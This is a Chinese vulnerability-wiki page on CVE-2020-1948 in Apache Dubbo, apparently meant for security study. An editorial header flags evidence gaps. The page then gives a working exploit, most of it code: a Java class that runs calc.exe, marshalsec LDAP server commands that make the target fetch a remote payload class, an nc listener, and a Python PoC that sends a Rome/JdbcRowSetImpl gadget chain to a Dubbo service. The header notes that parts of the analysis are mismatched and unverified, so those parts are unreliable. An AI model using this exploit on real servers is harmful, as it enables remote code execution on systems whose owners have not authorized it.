








# （CVE-2020-1948）Apache Dubbo Hessian 反序列化漏洞

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：Dubbo Hessian 请求入口、Rome/JdbcRowSetImpl gadget 和允许 JNDI 利用的 JDK；示例接口条件待核
- 证据范围：后半与 121 同一 dubbo-py Rome 调用；前半却讲 HessianServlet HTTP 服务，未证明其等同 Dubbo 解码路径。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 将通用 Hessian HTTP Servlet 的分析混作 Dubbo 漏洞根因，应拆分并核对
- 多张图引用 2019-17564 的资源目录，虽目标存在仍需视检内容是否错配；重复路径尾巴
- 2.7.7 范围与修复绕过关系未解释；缺 Rome 依赖/JDK 限制
- LDAP 请求或 toString 错误仅证明链条部分行为，不是命令执行成功
- nc 监听与 calc.exe PoC 无对应关系

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。
- 涉及 LDAP/RMI/DNS/HTTP 外带：回连只证明相应网络交互，不能单独证明命令执行；使用自控接收端，避免把日志、凭据或真实业务数据发送给第三方。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

一、漏洞简介
------------

攻击者可以发送带有无法识别的服务名或方法名及某些恶意参数负载的RPC请求，当恶意参数被反序列化时将导致代码执行

二、漏洞影响
------------

2.7.0 \<= Apache Dubbo \<= 2.7.7

2.6.0 \<= Apache Dubbo \<= 2.6.7

Apache Dubbo 全部 2.5.x 版本

三、复现过程
------------

### 漏洞分析

Hessian是一个轻量级的RPC框架。它基于HTTP协议传输，使用Hessian二进制序列化，对于数据包比较大的情况比较友好。使用hession的web项目需要配置web.xml,映射`com.caucho.hessian.server.HessianServlet`之相应的路径

ApacheDubboHessian反序列化漏洞/media/rId25.png)

Java客户端可以很方便的调用服务器上的方法,如下

ApacheDubboHessian反序列化漏洞/media/rId26.png)

查看`com.caucho.hessian.server.HessianServlet`的代码service方法处理客户端发来的http请求,调用

ApacheDubboHessian反序列化漏洞/media/rId27.png)

ApacheDubboHessian反序列化漏洞/media/rId28.png)

调用HessianSkeleton的invoke方法,将从客户端发来的数据流中读取对象

ApacheDubboHessian反序列化漏洞/media/rId29.png)

看代码里面好像没有什么黑白名单过滤机制通过抓取请求包,分析,构造请求包,将marshalsec工具生成的Resion
payload发送给服务器下面是构造请求包的`CVE-2020-1948.py`代码

ApacheDubboHessian反序列化漏洞/media/rId30.png)

利用图

ApacheDubboHessian反序列化漏洞/media/rId31.png)

ApacheDubboHessian反序列化漏洞/media/rId32.png)

### 漏洞复现

#### 构造poc

    ## exp.java
    import javax.naming.Context;
    import javax.naming.Name;
    import javax.naming.spi.ObjectFactory;
    import java.util.Hashtable;

    public class exp {
        public exp(){
            try {
                java.lang.Runtime.getRuntime().exec("calc.exe");
            } catch (java.io.IOException e) {
                e.printStackTrace();
            }
        }
    }

> 编译poc

    javac exp.java

#### nc监听

    nc -lvvp 12345

#### 服务器开启web服务，并将生成好的exp.class放置web目录

#### 启动 LDAP 代理服务

    java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://www.0-sec.org/#exp 81

> marshalsec 下载：

    https://download.0-sec.org/Web安全/java反序列化漏洞/marshalsec-0.0.3-SNAPSHOT-all.jar

#### py脚本测试

> 安装依赖包

    pip install dubbo-py

> 运行

    python poc.py www.target.com 12345 ldap://www.yourweb:81/exp

> 除了通过返回信息来判断外，观察 LDAP
> 代理是否出现请求转发也是判断POC利用是否成功的重要依据:

    # LDAP Refer Server Output
    Send LDAP reference result for exp redirecting to http://www.0-sec.org/exp.class
    # poc.py
    # -*- coding: utf-8 -*-

    import sys

    from dubbo.codec.hessian2 import Decoder,new_object
    from dubbo.client import DubboClient

    if len(sys.argv) < 4:
      print('Usage: python {} DUBBO_HOST DUBBO_PORT LDAP_URL'.format(sys.argv[0]))
      print('\nExample:\n\n- python {} 1.1.1.1 12345 ldap://1.1.1.6:80/exp'.format(sys.argv[0]))
      sys.exit()

    client = DubboClient(sys.argv[1], int(sys.argv[2]))

    JdbcRowSetImpl=new_object(
      'com.sun.rowset.JdbcRowSetImpl',
      dataSource=sys.argv[3],
      strMatchColumns=["foo"]
      )
    JdbcRowSetImplClass=new_object(
      'java.lang.Class',
      name="com.sun.rowset.JdbcRowSetImpl",
      )
    toStringBean=new_object(
      'com.rometools.rome.feed.impl.ToStringBean',
      beanClass=JdbcRowSetImplClass,
      obj=JdbcRowSetImpl
      )

    resp = client.send_request_and_return_response(
      service_name='org.apache.dubbo.spring.boot.sample.consumer.DemoService',
      # 此处可以是 $invoke、$invokeSync、$echo 等，通杀 2.7.7 及 CVE 公布的所有版本。
      method_name='$invoke',
      args=[toStringBean])

    output = str(resp)
    if 'Fail to decode request due to: RpcInvocation' in output:
      print('[!] Target maybe not support deserialization.')
    elif 'EXCEPTION: Could not complete class com.sun.rowset.JdbcRowSetImpl.toString()' in output:
       print('[+] Succeed.')
    else:
      print('[!] Output:')
      print(output)
      print('[!] Target maybe not use dubbo-remoting library.')

参考链接
--------

> https://github.com/DSO-Lab/Dubbo-CVE-2020-1948/wiki
